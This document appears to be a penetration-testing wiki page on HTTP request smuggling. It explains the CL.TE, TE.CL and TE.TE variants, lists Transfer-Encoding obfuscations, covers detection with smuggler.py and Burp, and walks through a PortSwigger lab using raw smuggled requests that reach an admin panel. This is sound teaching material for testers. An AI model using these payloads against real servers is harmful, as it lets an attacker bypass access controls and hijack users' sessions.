


# HTTP request smuggling

## Theory

**HTTP request smuggling** takes advantage of discrepancies in parsing non-RFC compliant HTTP requests through two HTTP devices (i.e. a back-end server and a HTTP-aware firewall or front-end proxy). The HTTP request smuggling process is performed by constructing multiple customized HTTP requests. This allows two target entities to see two different sets of requests.

In fact, users send requests to a front-end server that will forward them to a back-end server. Therefore, requests are sent one after another, and the receiving server parses the HTTP request headers to determine where one request ends and the next one begins. In this case, the front-end and the back-end need to agree about the boundaries between requests. Otherwise an attacker might be able to send an ambiguous request.


HTTP request smuggling happens because the HTTP specification provides two different ways to specify where a request ends:&#x20;

* the `Content-Length` header: the length of the message body is specified in bytes (`\r\n` included).
* and the `Transfer-Encoding` header: the length of chunk in bytes (hexadecimal encoding, `\r\n` included)

HTTP request smuggling vulnerability occurs when an attacker sends both headers in a single request. This can cause either the front-end or the back-end server to incorrectly interpret the request, passing through a malicious HTTP query.

Performing a request smuggling attack can lead to :

* Gain access to protected resources, such as admin consoles, or sensitive data
* Hijack sessions of web users, as well as credentials
* Conduct cross-site scripting (XSS) attacks without requiring any action from the user



### Content-Length.Transfer-Encoding (CL.TE)

In `CL.TE` RS (Request Smuggling) the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header. We can craft the follow HTTP request :

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked
 
0
MALICIOUS-REQUEST
```

Further explanation will be given in the [practice](http-request-smuggling.md#practice) part.



### Transfer-Encoding.Content-Length (TE.CL)

In `TE.CL` RS (Request Smuggling) the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can craft the follow HTTP request to exploit :

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

15

MALICIOUS-REQUEST

0
```

Further explanation will be given in the practice part.



### Transfer-Encoding.Transfer-Encoding (TE.TE)

When the front-end and back-end both support Transfer-Encoding header, you can obfuscate one the TE header so one of the server will be induced not to process the request. Here are ways to obfuscate the Transfer-Encoding header :

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Below is a summary table made by [spiderse](https://twitter.com/SpiderSec)





## Practice

In order to identify if the target is vulnerable to HTTP request smuggling, testers need to answer the following questions:&#x20;

* Is there a front-end and a back-end ?
* Are they are using `CL.TE` or `TE.CL` or `TE.TE` ? This can be answered [using Burp](http-request-smuggling.md#using-burp-suite), [smuggler.py](http-request-smuggling.md#using-smuggler.py) or manually in a "die and retry" manner.
* If `HTTP/2` is used, can the session be downgraded it to perform `H2.CL` or `H2.TE` ? [http2smugl](https://github.com/neex/http2smugl) (Python) can be used to detect this, with the `http2smugl detect $URL` command
* Can differentials responses be triggered a request is smuggled and sent multiple times ?
* Can timing delay is be triggered in responses when a request is smuggled and sent multiple times?

The last two questions can be answered by conducting the tests explained below.



One way to identify Request Smuggling is the time delay after sending this `CL.TE` request (this technique can also be used for `TE.CL`) for example :

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

In this request, the front end uses the `Content-Length` header, so it will forward 4 bytes of this request, omitting the `X`. The back-end, using the Transfer-Encoding header, will processes the first chunk and waits for the next, this will cause a huge time delay.



After identifying a probable request smuggling vulnerability, you can try to trigger differences in the contents of the application's responses. This involves sending two requests to the application in quick succession:

* An "attack" request that is designed to interfere with the processing of the next request.
* A "normal" request.

Here is an example with a `TE.CL` :

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

In this case, the **front-end** processes the `Transfer-Encoding` header and does the following operations

* handles the message body as using chunked encoding which is stated 124 (`0x7c`) bytes long
* reads up to the beginning of the line following the second request
* processes the second chunk, which is stated to be empty (since it ends with a 0)
* finishes parsing the request

This request is forwarded to the back-end server. The **back-end** uses the `Content-Length` header and does the following operations

* determines that the request is 4 bytes long (meaning it stops reading at the start of the line following `7c`).&#x20;
* The following bytes, starting with `GET`, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence and thus return a 404 status code.


When using the Burp Repeater, testers must always ensure that the "Update Content-Length" option is unchecked for `TE.CL` since modifying the `Content-Length` is required to trigger the vulnerability. The trailing sequence `\r\n\r\n` must be included following the final 0.




### Using smuggler.py

Tools like [smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py) (Python) can be used to identify potential HTTP request smuggling vulnerabilities.

```bash
# for a single host
smuggler.py -u $URL

# for a list of hosts
cat list_of_hosts.txt | python3 smuggler.py
```


### Using Burp Suite


The [HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) extension on the [BApp Store](https://portswigger.net/bappstore) is used in the following example.


The `scan` option can be used to&#x20;

* scan for possible HTTP Request Smuggling&#x20;
* or launch an "auto smuggle" with `Smuggle Prob` option (Burp Suite Collaborator is required to do that)

If `Smuggle Prob` didn't manage to exploit HTTP Request Smuggling but identified it, or if manual request smuggling operations were started in the `repeater tab`:

* Use the turbo intruder -> right click on the request -> Extensions -> HTTP Request Smuggler -> Smuggle Attack (`CL.TE` or `TE.CL`, depending on what the manual operations or `Smuggle Prob` identified)

In the screenshot below, a `CL.TE` Request Smuggling type was identified. Access to the admin panel is attempted. The prefix was changed. **The prefix will be the "smuggle" part of the request**.



The turbo intruder helps by `finding the right Content-length header` to smuggle the attack properly (n.b. this part is always tricky to perform).



Admin panel was accessed properly.

<details>

<summary>Scenario example: TE.CL exploit on PortSwigger Lab</summary>

Goal here is to access the admin panel

The following is the initial request that will be modified for request smuggling attacks.

```
GET / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

### Identify the vulnerability

In order to identify the vulnerability, multiple solutions are possible

* HTTP Request Smuggler Extension
* Manual requesting with "differential responses" or "timings techniques"
* With [smuggler.py](https://github.com/gwen001/pentest-tools/blob/master/smuggler.py)

### Smuggle the request

An attempt to smuggle the request is made by changing the `GET` to `POST` and adding `Transfer-Encoding` and `Content-Length` Header. In Burp, the option "update content length" must be unchecked, and `\r\n\r\n` must be added after the final `0` for the `TE.CL` request smuggling.

```
POST / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

### Adding the `Host` header

A problem arises. the back-end blocks the request. In fact, in this case, the back-end needs the header `Host: localhost` for the second request. The byte's number needs to be changed accordingly. Using this request, access to the admin panel is obtained.

```
POST / HTTP/1.1
Host: 0af2004803e19d8dc040db3100680078.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

</details>

## Resources










